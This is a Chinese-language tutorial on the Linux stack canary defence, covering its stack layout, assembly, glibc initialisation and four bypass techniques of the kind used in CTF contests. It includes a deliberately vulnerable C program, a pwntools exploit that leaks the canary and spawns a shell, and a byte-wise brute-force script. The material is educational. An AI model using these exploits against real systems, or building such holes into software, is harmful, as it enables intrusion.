





# Canary 保护机制

## 概述

**Canary（金丝雀）** 是一种经典的栈溢出保护机制，通过在栈上插入一个随机的校验值来检测栈溢出。

### 名字的由来

这个名字来源于英国矿井工人的金丝雀笼子：
> 工人们下井时会带上一只金丝雀。金丝雀对有毒气体特别敏感，一旦有气体泄漏，金丝雀会停止鸣叫甚至死亡，给工人预警。

在计算机安全中，Canary 就像那只金丝雀——一旦它被破坏，就说明发生了栈溢出，程序会立即终止。

### 为什么重要

Canary 是系统安全的第一道防线：
- **大幅增加栈溢出攻击的难度** - 攻击者必须知道正确的 Canary 值才能成功利用
- **几乎不消耗系统资源** - 只是在函数进出时做一次简单的检查
- **是 Linux 下保护机制的标配** - 现代编译器默认开启

---

## 详细解释

### Canary 的工作原理

让我们通过一个简单的类比来理解 Canary 的作用：

> 想象你把一个贵重物品（返回地址）放在桌子上，然后在它前面放了一个精美的玻璃杯（Canary）。如果有人想偷贵重物品，就必须先碰倒玻璃杯。一旦玻璃杯破碎，你就知道有人动过了。

在程序中，这个过程是这样的：

1. **函数序言（Prologue）** - 插入 Canary
2. **正常执行** - 程序运行
3. **函数尾声（Epilogue）** - 验证 Canary 是否被破坏
4. **分支** - 如果未被破坏，正常返回；如果被破坏，调用 `__stack_chk_fail`

### 在 GCC 中使用 Canary

GCC 提供了多个级别的 Canary 保护选项：

| GCC 参数 | 说明 |
|---------|------|
| `-fno-stack-protector` | 关闭 Canary 保护 |
| `-fstack-protector` | 基础保护（默认），只为含有数组的函数启用 |
| `-fstack-protector-all` | 为所有函数启用保护 |
| `-fstack-protector-strong` | 更强的保护策略（推荐） |
| `-fstack-protector-explicit` | 只对明确标记的函数启用 |

**实际编译示例：**
```bash
# 开启所有保护
gcc -fstack-protector-all vulnerable.c -o protected

# 对比：关闭保护
gcc -fno-stack-protector vulnerable.c -o unprotected
```

### 开启 Canary 后的栈结构

当启用 Canary 保护后，栈的布局会发生变化：

```
高地址
  +-----------------+
  |   参数          |  ← 函数参数
  +-----------------+
  | 返回地址 (ret)  |  ← 这是攻击者想覆盖的目标
  +-----------------+
ebp| saved ebp       |  ← 旧的栈基地址
  +-----------------+
  |   Canary 值     |  ← 这里插入了金丝雀！
  +-----------------+
  |                 |
  |   局部变量区     |  ← 缓冲区在这里
  |                 |
低地址
```

关键变化：**Canary 被放置在 saved ebp 和局部变量之间**。

让我们用图表对比一下开启 Canary 前后的栈结构：



### Canary 插入和验证的汇编代码

让我们看一下实际的汇编实现：

**函数序言 - 插入 Canary：**
```nasm
mov    rax, qword ptr fs:[0x28]    ; 从 TLS 读取 Canary 值
mov    qword ptr [rbp-0x8], rax     ; 存入栈中
```

**函数尾声 - 验证 Canary：**
```nasm
mov    rdx, qword ptr [rbp-0x8]    ; 从栈中读取 Canary
xor    rdx, qword ptr fs:[0x28]    ; 与 TLS 中的原值异或
je     0x4005d7 <main+65>          ; 如果相等（结果为0），正常返回
call   0x400460 <__stack_chk_fail@plt>  ; 否则，调用失败处理函数
```

### 深入理解：fs:[0x28] 是什么？

`fs` 寄存器在 Linux 中指向 **TLS（Thread Local Storage，线程本地存储）**。

TLS 结构的简化定义：
```c
typedef struct {
    void *tcb;              // 线程控制块指针
    dtv_t *dtv;             // 动态线程向量
    void *self;             // 指向自身的指针
    int multiple_threads;   // 是否多线程
    uintptr_t sysinfo;      // 系统信息
    uintptr_t stack_guard;  // ← Canary 就存在这里！
    // ... 其他字段
} tcbhead_t;
```

所以 `fs:[0x28]` 就是访问 `stack_guard` 字段。

### Canary 的初始化

Canary 值是如何生成的？让我们看一下 glibc 中的 `security_init` 函数：

```c
static void security_init(void) {
    // _dl_random 的值由内核在程序启动时写入
    // glibc 直接使用这个随机值
    
    // 将随机值的最后一个字节设置为 0x00
    // 这样设计是为了截断字符串（后面会讲为什么重要）
    uintptr_t stack_chk_guard = _dl_setup_stack_chk_guard(_dl_random);
    
    // 设置到 TLS 中
    THREAD_SET_STACK_GUARD(stack_chk_guard);
    
    _dl_random = NULL;  // 清空，防止泄露
}
```

**关键点：** Canary 值在程序启动时就确定了，进程运行期间不会改变。

### __stack_chk_fail 函数

当 Canary 检测失败时，会调用这个函数：

```c
void __attribute__ ((noreturn)) __stack_chk_fail(void) {
    __fortify_fail("stack smashing detected");
}

void __attribute__ ((noreturn)) internal_function 
__fortify_fail(const char *msg) {
    /* 这个循环只是为了让 gcc 高兴 */
    while (1) {
        __libc_message(2, "*** %s ***: %s terminated\n",
                      msg, __libc_argv[0] ?: "<unknown>");
    }
}
```

这个函数的作用就是：**打印错误信息并终止程序**。

让我们用时序图来展示这个完整的过程：



---

## 主要特性/关键点

### Canary 的设计特点

让我们用流程图看一下 Canary 的完整工作流程：



### Canary 值的特性

注意观察 Canary 值的一个重要设计：**最后一个字节是 0x00**。

为什么这样设计？
- **防止被字符串函数泄露** - 大多数字符串函数（如 `printf`、`strcpy`）遇到 `\x00` 就会停止
- **增加泄露难度** - 攻击者无法一次性完整打印出 Canary

### 与 Windows GS 保护的对比

Canary 不是唯一的栈保护机制：

| 特性 | Linux Canary | Windows GS |
|-----|-------------|-----------|
| 名称来源 | 金丝雀 | /GS 编译器选项 |
| 校验值位置 | 栈上 + TLS | 栈上 + 全局变量 |
| 失败处理 | __stack_chk_fail | __security_check_cookie |
| 进程重启后 | 重新生成 | 保持不变 |

---

## Canary 绕过技术

虽然 Canary 是有效的保护机制，但在特定条件下仍可绕过。

让我们先用思维导图来概览这 4 种绕过技术：



### 序言

每种绕过技术都有特定的适用场景，需要根据实际情况选择。

### 技术 1：泄露栈中的 Canary

**适用场景：** 程序存在格式化字符串漏洞或可以打印栈上数据的漏洞。

**核心思路：** Canary 以 `\x00` 结尾，我们可以覆盖这个结尾字节，从而打印出前面的部分。

让我们用流程图来展示这个过程：



#### 完整利用示例

让我们通过一个真实的例子来演示。

**漏洞程序代码：**
```c
// ex2.c - 存在格式化字符串漏洞的程序
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

void getshell(void) {
    system("/bin/sh");
}

void init() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}

void vuln() {
    char buf[100];
    for (int i = 0; i < 2; i++) {
        read(0, buf, 0x200);  // 危险：读入 0x200 字节到 100 字节的缓冲区
        printf(buf);          // 危险：格式化字符串漏洞！
    }
}

int main(void) {
    init();
    puts("Hello Hacker!");
    vuln();
    return 0;
}
```

**编译命令（32位，关闭 PIE）：**
```bash
gcc -m32 -no-pie ex2.c -o ex2
```

**利用脚本：**
```python
#!/usr/bin/env python
from pwn import *

context.binary = 'ex2'
# context.log_level = 'debug'
io = process('./ex2')

get_shell = ELF("./ex2").sym["getshell"]

io.recvuntil("Hello Hacker!\n")

# =============== 第一步：泄露 Canary ===============
payload = b"A" * 100  # 填充到 Canary 的位置
io.sendline(payload)

io.recvuntil(b"A" * 100)
canary = u32(io.recv(4)) - 0xa  # 减去换行符
log.info(f"Canary: {hex(canary)}")

# =============== 第二步：绕过 Canary ===============
# 构造 payload：填充 + Canary + padding + 返回地址
payload = b"\x90" * 100        # 填充局部变量
payload += p32(canary)         # 填入正确的 Canary（这样检查就通过了）
payload += b"\x90" * 12        # 覆盖 saved ebp 和其他 padding
payload += p32(get_shell)      # 覆盖返回地址

io.send(payload)
io.recv()
io.interactive()
```

**关键点总结：**
1. 第一次溢出只覆盖 Canary 的 `\x00` 结尾
2. 通过 `printf` 泄露 Canary 的其余部分
3. 第二次溢出填入正确的 Canary 值，绕过检查

### 技术 2：one-by-one 爆破 Canary

**适用场景：**
- 程序可以多次运行（如 fork 服务器模型）
- 每次进程重启后 Canary 不变（fork 的子进程继承父进程的内存）

**核心思路：** 逐字节爆破 Canary 的每一位。

**爆破脚本示例：**
```python
print("[+] Brute forcing stack canary")

start = len(padding)
stop = len(padding) + 8  # 64位程序是8字节

# 逐字节测试
while len(p) < stop:
    for i in range(0, 256):
        test_byte = bytes([i])
        res = send2server(p + test_byte)
        
        if res != "":  # 如果程序没有崩溃，说明这个字节猜对了
            p = p + test_byte
            print(f"\t[+] Byte found: 0x{i:02x}")
            break
    
    if i == 255:
        print("[-] Exploit failed")
        sys.exit(-1)

canary = p[stop:start-1:-1].hex()  # 注意小端序
print(f"[+] SSP value is 0x{canary}")
```

**为什么可行？**
- fork 的子进程会复制父进程的完整内存空间，包括 TLS 中的 Canary
- 所以在同一个 fork 模型中，所有子进程的 Canary 都相同

### 技术 3：劫持 __stack_chk_fail 函数

**适用场景：** 存在格式化字符串漏洞或其他可以修改 GOT 表的漏洞。

**核心思路：** `__stack_chk_fail` 是一个延迟绑定函数，我们可以修改它的 GOT 表项，让它跳转到我们想要执行的代码。

**典型案例：** ZCTF2017 Login

利用步骤：
1. 通过格式化字符串漏洞篡改 `__stack_chk_fail` 的 GOT 表
2. 将其地址改为 `system` 或其他 gadget
3. 触发栈溢出，让程序调用被篡改的 `__stack_chk_fail`
4. 实际上执行了我们想要的代码

### 技术 4：覆盖 TLS 中储存的 Canary 值

**适用场景：** 溢出长度足够大，可以覆盖到 TLS 区域。

**核心思路：** Canary 存在两个地方——栈上和 TLS 中。如果我们能同时覆盖这两个地方为相同的值，检查就会通过！

**典型案例：** StarCTF2018 babystack

**技术细节：**
- 需要知道 TLS 的准确位置
- 需要足够大的溢出空间
- 这种情况比较少见，但确实存在

---

## 应用场景

### CTF 比赛

Canary 是 pwn 题目的常客：
- **入门题目** - 通常配合格式化字符串泄露 Canary
- **进阶题目** - fork 模型爆破、GOT 劫持等复杂技术
- **综合题目** - Canary + NX + PIE + ASLR 全保护绕过

### 真实世界安全

Canary 在真实系统中广泛应用：
- **服务器程序** - 防止远程栈溢出攻击
- **桌面应用** - 保护用户程序安全
- **嵌入式设备** - 虽然资源有限，但现代设备也开始启用

### 防御者视角

作为开发者，如何正确使用 Canary：
- **始终开启保护** - 使用 `-fstack-protector-strong` 或 `-all`
- **不要试图自己实现** - 编译器的实现已经经过充分验证
- **配合其他保护** - NX、ASLR、PIE 一起使用效果更佳

---

## 相关概念

- [[栈溢出原理]] - Canary 就是为了防止栈溢出
- [[基本ROP]] - 即使有 Canary，ROP 技术仍然适用
- [[中级ROP]] - 更高级的利用技术
- [[格式化字符串漏洞]] - 常用来泄露 Canary

---

## 参考资料

1. [CTF-Wiki - Canary](https://ctf-wiki.org/pwn/linux/user-mode/mitigation/canary/)
2. [Stack Smashing Protector - Wikipedia](https://en.wikipedia.org/wiki/Buffer_overflow_protection#Stack-smashing_protection)
3. [GCC 文档 - fstack-protector](https://gcc.gnu.org/onlinedocs/gcc/Instrumentation-Options.html)
4. [Linux 源码 - glibc security_init](https://sourceware.org/git/?p=glibc.git;a=blob;f=csu/libc-start.c)
